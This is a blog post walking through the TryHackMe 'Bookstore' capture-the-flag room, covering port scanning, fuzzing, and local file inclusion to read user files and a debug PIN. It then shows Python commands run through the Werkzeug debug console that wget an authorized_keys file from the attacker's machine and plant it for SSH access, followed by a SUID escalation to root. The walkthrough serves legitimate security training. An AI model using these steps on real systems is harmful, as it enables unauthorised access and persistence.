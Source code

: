 ```yaml
---
layout: post
title:  "TryHackMe Bookstore writeup"
date:   2020-12-02 12:59:36 +0200
categories: writeup tryhackme
---
```

# Bookstore

This is a writeup for TryHackMe room [Bookstore](https://tryhackme.com/room/bookstoreoc). 

## Reconnaissance

Let’s start with a nmap scan:
```bash
nmap -sC -sV -p- 10.10.238.197
Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-29 10:40 EET
Nmap scan report for 10.10.238.197
Host is up (0.056s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 44:0e:60:ab:1e:86:5b:44:28:51:db:3f:9b:12:21:77 (RSA)
|   256 59:2f:70:76:9f:65:ab:dc:0c:7d:c1:a2:a3:4d:e6:40 (ECDSA)
|_  256 10:9f:0b:dd:d6:4d:c7:7a:3d:ff:52:42:1d:29:6e:ba (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Book Store
5000/tcp open  http    Werkzeug httpd 0.14.1 (Python 3.6.9)
| http-robots.txt: 1 disallowed entry 
|_/api </p> 
|_http-server-header: Werkzeug/0.14.1 Python/3.6.9
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Ok, this is a Linux box running a web server and some Python based backend. Let’s take a closer look. The actual web site is pretty simple, I enumerate it and find some interesting notes regarding the backend:

```javascript
function getAPIURL() {
    var str = window.location.hostname;
    str = str + ":5000"
    return str;
}

async function getUsers() {
    var u=getAPIURL();
    let url = 'http://' + u + '/api/v2/resources/books/random4';
    try {
        let res = await fetch(url);
	return await res.json();
    } catch (error) {
        console.log(error);
    }
}
...
//the previous version of the api had a paramter which lead to local file inclusion vulnerability, glad we now have the new version which is secure.
```

on login page after unsuccessful login:
```html
<!--Still Working on this page will add the backend support soon, also the debugger pin is inside sid's bash history file -->
``` 

Nothing more so let’s focus on the backend. There is a documentation page which describes the API routes available.
Image for post
Looking at the comment about previous version vulnerability I test
```
GET /api/_v1_/resources/books?published=2014 HTTP/1.1 
````

It works so the previous API is still there. If there is a LFI at some parameter, let’s try to find it with wfuzz:
```bash
wfuzz -w /usr/share/wordlists/wfuzz/general/common.txt --hc 404 http://10.10.199.238:5000/api/v1/resources/books?FUZZ=1993

********************************************************
* Wfuzz 3.0.1 - The Web Fuzzer                         *
********************************************************
Target: http://10.10.199.238:5000/api/v1/resources/books?FUZZ=1993
Total requests: 949
===================================================================
ID           Response   Lines    Word     Chars       Payload                                              
===================================================================
000000751:   500        356 L    1747 W   23076 Ch    "_show_"
Total time: 10.57543
Processed Requests: 949
Filtered Requests: 948
Requests/sec.: 89.73629
```

Ok, there is a new parameter which isn’t documented. Let’s see what the response looks like:
![Response]({{ site.url }}/assets/bookstore/bookstoreresponse.png)

Ok, simply by specifying a filename in the show-parameter we can view it on the server.

## Gaining entry

Start by grabbing the user flag from `http://10.10.199.238:5000/api/v1/resources/books?show=/home/sid/user.txt`

And the WERKZEUG_DEBUG_PIN file might come handy later: 

````
http://10.10.199.238:5000/api/v1/resources/books?show=/home/sid/.bash_history

cd /home/sid whoami export WERKZEUG_DEBUG_PIN=__REDACTED__ echo $WERKZEUG_DEBUG_PIN python3 /home/sid/api.py ls exit
````

We can also take a look at the api source code: `view-source:http://10.10.199.238:5000/api/v1/resources/books?show=/home/sid/api.py``

With the debug pin we can execute any python code we want using the console:

![Response]({{ site.url }}/assets/bookstore/pythondebug.png)

This time I want SSH access to be able to wreck havoc fast. I accomplish this by uploading my SSH public key to the server and adding it to Sid’s account:
```python
os.system("mkdir /home/sid/.ssh")
os.system("wget http://10.8.108.247/authorized_keys")
os.system("cp authorized_keys /home/sid/.ssh")
````
and then ssh in as sid. There seems to be a cronjob deleting .ssh folder every two minutes but it seems it didn’t work.

## Privilege escalation

Immediately looking at Sid’s home directory it is clear what the PE vector is. There is a a binary with suid bit set:
![Response]({{ site.url }}/assets/bookstore/tryharder.png)

I download a copy and analyze with Cutter:
![Response]({{ site.url }}/assets/bookstore/Cutter.png)

Mmm.. bit arithmetic. To make it easy I just write a C program that does the arithmetic.

{% gist 1fe219ace66d29489a9c767429354118 %}

With the answer I can enter the magic number into the suid program and BOOM! I’m root.
